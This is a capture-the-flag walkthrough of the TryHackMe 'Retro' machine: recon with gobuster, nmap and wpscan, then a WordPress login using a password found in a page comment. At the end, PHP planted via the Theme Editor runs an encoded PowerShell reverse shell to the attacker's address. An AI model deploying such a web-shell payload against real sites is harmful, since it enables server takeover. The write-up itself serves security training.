Hi everyone, in this article I would like to analyze retro from TryHackMe platform.
Before I begin, let's attach our ip address to customized domain name ->
nano /etc/hosts
ctrl+s and ctrl+x

For the reconnaissance, first of all, I conducted both nmap and whatweb scans respectively. Due to the time constraints, nmap was a bit slow compared to whatweb especially for web application discovery.
whatweb retro.thm

As you can see above, we have a default IIS configuration screen, built in .NET Framework.
Source code did not give any clues about our reconnaissance:

dirsearch did not show any juicy findings ->

Therefore, I preferred gobuster to find anything useful ->
gobuster dir -u http://retro.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt

Finally, I moved given endpoint through browser ->

It is clear that even though the server consisting IIS, the technology that has been used was PHP.

I just manually fuzz the given page and then I encountered a page indicating the author name Wade and the application WordPress.

Before I manually fuzz the entire endpoints, I started Gobuster again ->
gobuster dir -u http://retro.thm/retro/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt

At the same time nmap results were prompted on the terminal screen ->
sudo nmap -sV -sC -Pn retro.thm

It was the proof of concept of the Windows OS.
Let me also conduct wpscan ->

There was not anything correlated with creds of the Wade. However, after I manually examine the page there was a comment leave like a password ->

Authentication attempt was successful as Wade user ->
Wade:parvizal

Notice: I also commented on one of the posts appealing on thread :)

Because of my operating system, I must execute the payload through Powershell ->

Since I could not find any PHP programs' endpoints, I directly embedded such payload through Theme Editor -> index.php main application ->
<?php
$command = 'cmd /c powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQA0AC4AOQAyAC4AMQA4ADkAIgAsADQANAA0ADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';
exec($command, $output, $return_var);
echo "<pre>" . implode("\n", $output) . "</pre>";
?>

